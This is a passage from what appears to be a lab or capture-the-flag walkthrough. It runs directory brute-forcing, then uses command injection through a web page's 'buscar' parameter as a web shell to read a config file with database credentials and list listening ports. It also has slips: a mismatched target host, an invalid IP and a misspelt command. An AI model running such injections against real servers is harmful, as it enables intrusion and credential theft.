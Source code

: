 We look for a directory or a file that may be useful to us:

```bash
gobuster dir -u http://devvortex.htb/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -r
```

We find the directory `/wordpress`, inside we find the files: `config.php` and `index.html`. Let's see what's inside the file `config.php`:

```bash
wget 10.0.2.4/site/busque.php?buscar=cat%20wordpress/config.php
```

We open the file using the **cat** tool:
```php
<?php
$servername = "localhost";
$database = "desafio02";
$username = "desafio02";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password,$database);
// Check connection
if (!$conn) {
	die("Connection failed: ", mysqli_connect_error()):
}
echo "Connected succesfully";
mysqli_close($conn);
?>
```

We see some user credentials and a connection to SQL. Let's search for more open ports using the webshell: `view-source:http://10.0.2.4/site/busque.php?buscar=netsat -antopu | grep LISTEN`

![new ports found](sql_port.png)

We find the ports 3306 (SQL) and 22 (SSH). It is a *rabbit hole*. Nothing to do here.

If we execute `ls /home` using the web shell, we see that the user credentials we have obtained are useless, so let's look for more directories and files using the **wfuzz** tool:
```bash
> wfuzz -w /usr/share/wordlists/wfuzz/general/medium.txt --hc 404,403 http://10.0.0.2.4/.FUZZ
***********************************************
* Wfuzz 3.1.0 - The Web Fuzzer                *
***********************************************

Target: http://10.0.2.4/.FUZZ
Total requests: 1659

==================================================================
ID           Response    Lines    Word      Chars     Payload
==================================================================
000000152:   200         12 L     37 W      336 Ch    "backup"

Total time: 1.265443
Processed Requests: 1659
Filtered Requests: 1658
Requests/sec.: 1311.002
```
